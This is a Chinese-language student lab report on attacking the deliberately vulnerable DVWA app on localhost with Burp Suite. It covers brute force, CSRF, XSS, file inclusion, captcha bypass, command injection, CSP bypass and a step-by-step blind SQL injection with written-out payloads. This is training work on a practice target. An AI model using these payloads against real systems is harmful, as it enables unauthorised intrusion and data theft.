# Web应用漏洞攻防

## 实验目的

- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；

## 实验环境

- dvma
- xampp

## 实验步骤

1.下载xampp、dvwa、burpsuite

对burpsuite进行配置，如图



然后打开brute suite，输入账号和密码,进行抓包

下图为抓包结果



导入字典，开始爆破


### CSRF

初级难度：

初始链接为 `http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`

对链接进行修改，将“123”修改为“abc”,结果修改成功

如图：


中级难度：

无法通过直接修改url来获知结果

使用burpsuite对该界面进行抓包



得到refere为：http://127.0.0.1/dvwa

将其加入到链接当中，成功修改

### XSS DOM

1. 查看服务端代码


2.查看页面源代码



3.构造攻击语句

 > http://127.0.0.1/dvwa-master/vulnerabilities/xss_d/?default=English

4.运行结果


### 文件包含漏洞
初级难度：在xampp文件中创建helloworld.txt，在txt中写入代码：
<?php echo "hello world!";?>

在浏览器地址栏中输入http://127.0.0.1/dvwa/vulnerabilities/fi/?page=C:\xampp\helloworld.txt，发现成功显示hello world

使用相对路径的话，同样可以显示

### 不安全的验证码

对密码进行修改的同时用brupsuite抓包，修改step参数，



添加passed_captcha


### 弱会话

使用burpsuite对代码进行解析
如图：


medium级别是基于时间戳生成dvwaSesion的，关于时间戳转换，直接查找转换器进行转换即可
通过设置时间戳，可知诱骗受害者在某个时间点基进行点击，

### command injection

low:

操作如图所示








### SQL injection
1.判断是否存在注入，注入是字符型还是数字型,代码如下：

1' and 1=1 #        //exists
1' and 1=2 #       //missing
存在字符型注入
若1 and 1=1 #        //exists
1 and 1=2 #      //exists
这两个都是exits不符合逻辑，所以说不是数字型注入

2.猜解当前的数据库名称

想要猜解数据库名，首先要猜解数据库名的各个属性，然后挨个猜解字符。
数据库名称的属性：字符长度、字符组成的元素（字符/数字/下划线/…）和元素的位置（首位/第一位/…/末位）

1） 判断数据库的名称的长度（二分法思维）

1' and length(database())>10 #          //missing

1' and length(database())>5 #           //missing

1' and length(database())>3 #          //exists

1' and length(database())=4 #         //exists

说明数据库名称长度为4个字符

2） 判断数据库名称的字符组成元素：

1' and ascii(substr(database(),1,1))>88 #             //exists

1' and ascii(substr(database(),1,1))=100 #           //exists

第一个字符为：100--->d

1' and ascii(substr(database(),2,1)=118 
            //exists

第二个字符为：118--->v

依次为dvwa

### CSP bypass

查看源代码：

> <?php
>
> $headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, jquery and google analytics.
>
> header($headerCSP);
>
> # https://pastebin.com/raw/R570EE00
>
> ?>
> <?php
> if (isset ($_POST['include'])) {
> $page[ 'body' ] .= "
>     
> ";
> }
> $page[ 'body' ] .= '
> <form name="csp" method="POST">
>     
You can include scripts from external sources, examine the Content Security Policy and enter a URL to include here:

>     <input size="50" type="text" name="include" value="" id="include" />
>     <input type="submit" value="Include" />
> </form>





